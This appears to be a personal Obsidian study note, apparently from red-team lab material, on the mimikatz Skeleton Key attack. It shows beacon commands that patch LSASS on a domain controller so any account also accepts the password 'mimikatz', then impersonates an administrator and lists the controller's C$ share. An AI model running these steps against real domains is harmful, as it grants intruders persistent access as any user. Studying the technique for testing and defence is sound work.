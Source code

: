 ```yaml
---
creation date: September 26th 2022
last modified date: September 26th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Skeleton Key]]  
___

## Description:  

The Skeleton Key is only applicable to Domain Controllers - it patches LSASS to hijack the usual NTLM and Kerberos authentication flows and permits any user to be authenticated with the password `mimikatz` (their real passwords still work too).

Install the key:
```
beacon> run hostname
dc-2

beacon> mimikatz !misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK
```
Testing auth:

```
beacon> make_token DEV\Administrator mimikatz
[+] Impersonated DEV\bfarmer

beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     03/10/2021 14:38:44   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     03/10/2021 13:52:03   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     03/11/2021 12:59:29   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 448mb    fil     03/11/2021 09:19:53   pagefile.sys
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 26th 2022 (12:26 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
